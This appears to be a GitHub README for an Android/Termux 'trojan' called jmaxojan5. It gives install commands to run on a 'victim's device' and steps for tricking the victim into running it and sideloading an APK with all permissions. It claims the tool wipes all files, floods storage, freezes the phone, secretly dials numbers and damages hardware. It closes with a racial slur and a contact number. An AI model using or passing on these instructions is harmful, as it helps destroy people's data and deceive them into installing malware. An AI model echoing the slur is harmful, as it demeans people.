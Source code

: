 # jmaxojan5
Jmaxojan v: 5.8

# installation 
Run this comands in victim's device:
```
pkg update
pkg upgrade
pkg install git -y
git clone https://github.com/jmaxojan/jmaxojan5
```
to start the trojan make the victim execute:
bash *

it will automatically :
1) remove and format all files from all paths in Android device.
2) make 2000 folders in each path on the device.
3) add 10GB to the memory in just few seconds.
4) hang and freeze the phone.

for more damage make the victim execute this first:

bash .install.sh

an apk will appear in /sdcard named TermuxApi.apk make the victim install it and go to settings>applications>TermuxApi and activate all the permissions that asked then runrun bash * , it will: #beside the features that mentioned up

1) destroy the flashlight.
2) vibrate the phone really hard.
3) play a sex voice. #just for fun
4) make the phone call many numbers secretly.
5) change the wallpaper.

HAVE FUN AND PRAY 4 ME NIGGAS , JMAX - WA : +995 322 04 80 63

